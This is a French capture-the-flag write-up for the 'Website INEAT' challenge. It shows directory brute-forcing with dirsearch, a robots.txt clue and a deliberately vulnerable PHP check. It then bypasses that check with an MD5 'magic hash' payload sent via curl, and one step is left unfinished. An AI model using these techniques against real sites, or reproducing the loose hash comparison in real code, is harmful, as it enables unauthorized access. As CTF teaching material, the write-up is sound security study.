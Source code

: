 # Website INEAT

Après un petit tour du site, on ne trouve pas grand chose d'intéressant. On va donc utiliser un petit outil de bruteforce de répertoires.
Personellement, j'ai utilisé `diresearch.py` dispo sur github.

```
python3 dirsearch.py -u https://website.ctf.ineat.fr -e php,asc,prk -r
```

On trouve deux trois trucs intéressants :

> [09:39:55] 301 -  169B  - /files  ->  http://website.ctf.ineat.fr/files/  
> [09:39:55] 403 -  555B  - /files/  
> [09:39:58] 200 -   21KB - /index.php  
> [09:40:07] 200 -    1KB - /robots.txt  

On commence par aller jetter un oeil au fichier `robots.txt` dans lequel on trouve certaines choses intéressantes :

```
[...]
Disallow: https://website.ctf.ineat.fr/secured/flag
Disallow: https://website.ctf.ineat.fr/__secured-backup.tar.gz.gpg
Disallow: https://website.ctf.ineat.fr/INEAT{th1s-1s-n07-th3-fl4g} <-- l'humour de Jordan
```

Le premier et le troisième lien sont de baits, on s'intéresse doncplus en détail à notre archive. Il s'agit d'un `.tar.gz` chiffré avec GPG. Faute de clé, il va falloir casser le mot de passe.

[A compléter]

On a donc extrait les fichiers suivants :

```text
.
├── __secured-backup.tar.gz
├── fade.gif
├── files
│   └── style.css
├── index.php
├── not-the-flag-you-can-pass.gif
└── robots.txt
```

Le fichier `index.php` devrait contenir notre bonheur. Après avoir remplacé les noms abominables des variables par quelque chose de respectable et fait un peu de ménage, on se retrouve avec quelque chose qui ressemble à ça :

```php
$hash = hash("md5", $_POST["h1"]);

//Funny php :)
if(  strpos($_POST["h1"], "hello") !== false > 0 && $hash == "0") {
  echo "<!-- Bien joué le flag est ".$flag."-->";
}

```

Notre mot de passe est donc hash en MD5 avant de passer dans un if un peu étrange.  
La suite demande en réalité quelques connaissances (ou recherches) sur les bizarreries de PHP. Il faut savoir qu'il existe un bug relativement connu de PHP concernant les comparaisons de hash qu'on appelle les "Magic Hashes" (il existe probablement un nom plus sérieux que je ne connais malheureusement pas). Plutôt que tout - mal - réexplique, je vous laisse jetter [un coup d'oeil ici](https://www.whitehatsec.com/blog/magic-hashes/) pour en apprendre un peu plus.

Globalement pour résumer, quand un hash débute par "0e" et que - pour une raison obscule - on le compare à "0", le test passera systématiquement. Il nous faut donc trouver une chaine qui preduit un MD5 qui :
* Commence par "0e"
* Contient "hello"

Une bonne liste de collisions [peut-être trouvée ici](https://github.com/spaze/hashes/blob/master/md5.md).

On prend par exemple `md5(0rCCFVK5hello) => 0e341458689020068004009380684426`
Il ne nous reste plus qu'à envoyer tout ça.

```
$  curl -s https://website.ctf.ineat.fr/index.php --data "h1=0rCCFVK5hello" | grep flag
<!-- Bien joué le flag est INEAT{w34k_c0mp4r4is0n_f4iL}-->
```
